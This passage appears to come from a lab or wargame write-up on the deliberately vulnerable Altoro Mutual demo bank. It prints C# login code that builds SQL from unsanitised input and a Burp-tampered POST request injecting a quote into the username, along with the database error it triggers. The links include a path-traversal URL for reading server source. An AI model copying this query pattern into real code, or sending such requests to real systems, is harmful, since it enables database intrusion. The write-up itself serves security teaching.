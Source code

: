 

### SQL injection using POST parameters

Now let's have a closer look at the source code... Let's analyze the *!ValidateUser*function:

~~~.dotnet
protected string ValidateUser(String uName, String pWord)
    {
      //Set default status to Success
      string status = "Success";
      OleDbConnection myConnection = new OleDbConnection();
      myConnection.ConnectionString = ConfigurationManager.ConnectionStrings["DBConnStr"].ConnectionString;
      myConnection.Open();
      string query2 = "SELECT * From users WHERE username = '" + uName + "'";
      string query1 = query2 + " AND password = '" + pWord + "'";
      if (ConfigurationManager.ConnectionStrings["DBConnStr"].ConnectionString.Contains("Microsoft.Jet.OLEDB.4.0"))
      {
          // Hack for MS Access which can not terminate a string
          query1 = Regex.Replace(query1, "--.*", "");
          query2 = Regex.Replace(query2, "--.*", "");
      }
      ....
~~~

As you can see the *uName* parameter doesn't get sanitized, so you can easily run some **SQL injection**. Let's try that out. Using [Burpsuite][7] we'll tamper data sent to the web server and analyze the responses.

Here's the request:

~~~.html
POST /bank/login.aspx HTTP/1.1
Host: demo.testfire.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:10.0.6) Gecko/20100101 Firefox/10.0.6
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-us,en;q=0.5
Accept-Encoding: gzip, deflate
Proxy-Connection: keep-alive
Referer: http://demo.testfire.net/bank/login.aspx
Cookie: ASP.NET_SessionId=2ks1fprgokgkd0jthbms3d25; amSessionId=62733112717
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
uid=admin%27&passw=test&btnSubmit=Login
~~~
As a response you'll get:

~~~
An Error Has Occurred
Summary:
Syntax error (missing operator) in query expression 'username = 'admin'' AND password = 'test''.
Error Message:
~~~

 [3]: http://demo.testfire.net/default.aspx?content=../bank/login.aspx.cs%EF%BF%BD.txt
 [7]: http://www.portswigger.net/burp/
 [8]: http://dornea.nu/wargames/altoro-mutual?action=AttachFile&do=get&target=login_sql_injection.png "attachment:login_sql_injection.png"
 [9]: http://demo.testfire.net/default.aspx?content=../bank/main.aspx.cs%EF%BF%BD.txt